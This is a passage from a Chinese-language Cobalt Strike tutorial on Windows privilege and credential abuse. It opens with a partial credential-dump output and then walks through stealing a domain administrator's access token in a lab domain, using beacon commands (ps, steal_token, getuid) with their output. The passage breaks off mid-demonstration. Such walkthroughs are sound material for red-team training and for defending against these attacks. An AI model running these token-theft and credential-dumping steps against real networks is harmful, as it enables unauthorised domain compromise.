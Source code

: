 ```bash
	msv :	
	 [00000003] Primary
	 * Username : Administrator
……内容过多，余下部分省略……
```

终于把碰到的坑都填完了.

4、获取信任 #
如果当前账号权限被系统认为是本地管理员权限，那么就可以执行很多管理员才能做的事，接下来就来看一下这样的一个过程是如何工作的，其中会涉及到以下要点：

1. cess Token 登录令牌
2. Credentials 凭证
3. Password Hashes 密码哈希
4. Kerberos Tickets 登录凭据

## 登录令牌 
登录令牌在登录之后被创建
与每个进程和线程相关联
包括：
用户和用户组的信息
本地计算机上的特权列表
限制（删除用户和用户组的权限）
参考凭证（支持单点登录）
一直保存在内存中，直到系统重启
以下是令牌窃取的过程：

使用 ps 列出进程
使用 steal_token [pid] 窃取令牌
使用 getuid 找到你是谁
使用 rev2self 移除令牌
接下来将对这些命令进行演示，目前有一个 SYSTEM 权限的会话，该会话在 WIN-72A8ERDSF2P 主机下，此时想查看 WIN-P2AASSD1AF1 主机下的文件（WIN-P2AASSD1AF1 主机是 TEAMSSIX 域的域控制器），那么直接运行 dir 会提示拒绝访问。
```bash
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
此时，先用 ps 查看一下当前系统进程信息。

beacon> ps
[*] Tasked beacon to list processes
[+] host called home, sent: 12 bytes
[*] Process List
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 0     0     [System Process]                               
 4     0     System                       x64   0           NT AUTHORITY\SYSTEM
……内容太多，此处省略……
 3720  524   taskhost.exe                 x64   2           WIN-72A8ERDSF2P\Administrator
 4092  236   dwm.exe                      x64   3           TEAMSSIX\Administrator
通过进程信息可以发现 TEAMSSIX 域下的管理员账户此时在当前 SYSTEM 会话的主机上是登录着的，使用 steal_token [pid] 命令窃取 TEAMSSIX\Administrator 账户的令牌

beacon> steal_token 4092
[*] Tasked beacon to steal token from PID 4092
[+] host called home, sent: 12 bytes
[+] Impersonated TEAMSSIX\administrator
查看一下当前会话 uid

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
```